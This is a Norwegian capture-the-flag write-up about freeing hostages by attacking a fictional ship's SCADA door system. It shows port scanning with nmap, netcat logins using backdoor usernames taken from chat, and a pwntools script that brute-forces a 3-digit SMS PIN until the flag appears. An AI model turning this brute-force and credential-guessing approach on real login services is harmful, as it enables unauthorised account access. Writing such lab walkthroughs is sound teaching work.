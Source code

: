 # 2.3 Onion/SCADA

I denne delen av oppdraget skal vi forsøke å frigi gisslene ved å overstyre de automatiserte dørsystemene på skipet Kolbjørn.

## 2.3_onion

Fra [2.1_beslag_3](2_1_beslag.md) fikk vi et par linker i filen `important_links`. Vi sjekker den første:

```curl
$ curl http://fileserver/files/onion_name.txt
Due to OPSEC, the onion URL must be transitory.
The onion server is currently located at:
tpcoty656mdwnvqt7hiibmoeyb3dckoszs4cf5vmvtxdt52qkjykr5id.onion
```

Dette er da et [.onion domene](https://en.wikipedia.org/wiki/.onion) på [Tor nettverket](<https://en.wikipedia.org/wiki/Tor_(anonymity_network)>). Hvis vi åpner denne linken i Tor-browseren kommer vi til et bilde som minner om et kart. Det er tydelig at dette er en labyrint, og vi kan tenke oss at vi trolig skal manipulere dørene for å frigi gisler. Trolig via SCADA Client programmet som vi også fant link til i `Vault`.

Jeg fant to måter å finne det første flagget på - Den enkleste er å bare åpne console så står det der. Sammen med et ganske ok tips. MEN - dersom du skal finne cluet til videre fremgang må man se i koden:

Hvis man tar en titt i kilden til siden så finner man to JavaScript filer - `chunk-vendors.c7adce26.js` og `app.0459ce51.js`. Vi konsentrerer oss litt om den siste.

Selv om filene er noe obfuscated, så er de ikke fullstendig ugjenkjennelige. Og faktisk - om vi søker etter `FLAGG` i filen så finner vi til slutt følgende linjer innimellom:

```javascript
function () {
  console.log("PRO TIP: In case the TOR connection is unstable - you can access this via the hostname 'scada' internally"),
  console.log('Here is a flag: b4ba373.........................');
}
```

Det gir oss flagget og et hostname som gjør livet vårt litt enklere (og de neste oppgavene mulige).

Her er også noen andre linjer som kan være interessante for de påfølgende oppgavene:

```javascript
function () {
            var t = this,
              e = t.ws
                ? t.ws
                : new WebSocket('ws://'.concat(location.hostname, ':1339/')),
              s = 'POm8HLEmXJ1L2b1EhaXvdg==';
```

## 2.3_scada_aksess

Vi ser av siste koden over at port `1339` hos `scada` er åpen, men vi sjekker om det kan være flere også

```sh
$ nmap -sV -sC -oN scada.nmap -p- scada
Nmap scan report for scada (10.0.208.134)
Host is up (0.00046s latency).
rDNS record for 10.0.208.134: 41f9bba70284ba9d7358cae284c150ee_scada.1.pjni3exwu5yqbnp4sp9mqf7tx.41f9bba70284ba9d7358cae284c150ee_backend
Not shown: 65532 closed ports
PORT     STATE SERVICE        VERSION
80/tcp   open  http           nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: scada_frontend
1338/tcp open  wmc-log-svc?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:
|     Username: That username is not recognized
|     were unable to log you in..
|   NULL:
|_    Username:
1339/tcp open  kjtsiteserver?
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Sec-Websocket-Version: 13
|     X-Content-Type-Options: nosniff
|     Date: Mon, 11 Jan 2021 17:05:51 GMT
|     Content-Length: 12
|     Request
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Sec-Websocket-Version: 13
|     X-Content-Type-Options: nosniff
|     Date: Mon, 11 Jan 2021 17:05:26 GMT
|     Content-Length: 12
|_    Request
```

Vi finner tre porter som er åpne; `80` og `1339` viste vi fra før - men `1338` er ny!

Om vi går til `:1338` i tor-browseren får vi ikke veldig mye spennende tilbake - annet en rå data. Men om vi prøver å koble til via `netcat` får vi opp en prompt som spør oss om et brukernavn;

```sh
$ nc scada 1338
Username: test
That username is not recognized
We were unable to log you in..
```

Fra chatten tidligere fant vi en beskrivelse på brukernavnene til backdooren i systemet. La oss prøve:

```sh
$ nc scada 1338
Username: Fra16Shorius
User access revoked..      <<===========
We were unable to log you in..
```

Frank sin bruker er tydeligvis deaktivert - men da er det jo flaks vi har flere navn etter oppgave [2.2_seatheworld_booking](2_2_seatheworld.md).

Ikke bare det, men vi kan bruke dette til å knytte kallenavn fra chat til navn. Eireen og Frank gjetter vi oss greit til så da står vi igjen med Joe og Dillon. Vi tester, og står igjen med følgende koblinger:

| Nick             | Navn           | Username     |
| ---------------- | -------------- | ------------ |
| eireen89         | EIREEN FARNABY | Eir8Farnaby  |
| RADAR            | JOE FARNABY    | Joe5Farnaby  |
| B4tCracK         | DILLON CRUISE  | Dil8Cruise   |
| hungry_hippo_123 | FRANK SHORIUS  | Fra16Shorius |

Vi forsøker logge inn som en av de andre

```
$ nc scada 1338
Username: Dil8Cruise
We have now sent a login PIN to you via SMS
Enter PIN: 1111
..the provided PIN was not correct.
```

Auda... men heldigvis har vi tilsynelatende uendelig med forsøk! Dette lukter bruteforce :)

```python
from pwn import *

HOSTNAME = 'scada'
PORT = '1338'

USERNAME = b'Eir8Farnaby'

PIN_NUM = 999
MAX_TRIES = 256

while True:

    # Connect to host
    r = remote(HOSTNAME, PORT)

    # See what data we get back
    log.info(r.recv())

    # Send the username (as bytes?)
    log.info(f"> SENDING USERNAME...")
    r.send(USERNAME)

    # See what data we get back
    log.info(r.recv())

    # Start bruteforcing pins
    TRIES = 1
    while TRIES < MAX_TRIES:
        log.info(f"> ({TRIES} SENDING PIN: {PIN_NUM}")
        r.send(str(PIN_NUM))
        log.info(r.recv())
        PIN_NUM -= 1
        TRIES += 1

    r.close()
```

Det viser seg at vi har 256 forsøk på å løse koden, det viser seg også at PIN koden er på 3 siffer! På dette tidspunktet var jeg ganske presset på tid. Dermed er skriptet over en veldig quick-and-dirty sak som egentlig bare spyr ut pinkoder fra 999 og nedover 256 ganger, og så restarter. Teorien er da at en eller annen gang kommer koden til å ligge innenfor den mengde tall som vi gjetter på og vi vil få flagget.

Kjørte skriptet, og til slutt ble flagget printet!

_Desverre var det så langt jeg kom i 2021. Jeg gikk tom for tid, men neste steg hadde da vært å forsøke frigi gisslene_
